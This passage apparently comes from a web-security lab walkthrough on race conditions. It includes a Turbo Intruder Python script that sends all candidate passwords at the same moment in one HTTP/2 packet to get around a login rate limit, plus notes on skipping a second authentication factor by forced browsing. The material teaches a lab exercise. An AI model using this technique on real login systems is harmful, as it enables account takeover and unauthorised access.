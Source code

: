 5. Build a proof of concept

  - In one Repeater tab, highlight the password value and choose Extensions ▶ Turbo Intruder ▶ Send to turbo intruder.

  - Replace the username parameter with carlos.

  - Select examples/race-single-packet-attack.py and adapt the script so each candidate password is queued once and withheld behind gate '1'. All requests are then released simultaneously via engine.openGate('1'):

```python
def queueRequests(target, wordlists):

    # single-packet attack: HTTP/2, one connection
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2)

    # candidate passwords copied to clipboard
    passwords = wordlists.clipboard

    # queue one request per password behind gate '1'
    for password in passwords:
        engine.queue(target.req, password, gate='1')

    # fire every queued request at the same instant
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```

  - Copy your wordlists to the clipboard and launch the attack.

6. Identify the valid password – In the results table, a 302 redirect indicates a successful login; note the corresponding password. After the lock resets, sign in as carlos with that password, open the admin panel, and delete the carlos user to complete the lab.

## Hidden multi-step sequences

In many cases, a single HTTP request triggers a chain of internal actions, moving the application through several temporary "sub-states" that exist only briefly during processing. 
If you can find multiple requests that interact with the same underlying data, you may be able to exploit these fleeting sub-states to uncover time-sensitive logic flaws --- similar to those seen in multi-step workflows --- leading to race-condition attacks that are far more powerful than simple limit overruns.

One classic example is an insecure multi-factor authentication flow: you submit the correct username and password, then use forced browsing to jump directly into the app and sidestep the second authentication factor altogether. 

### Hidden multi-step sequences - Continued

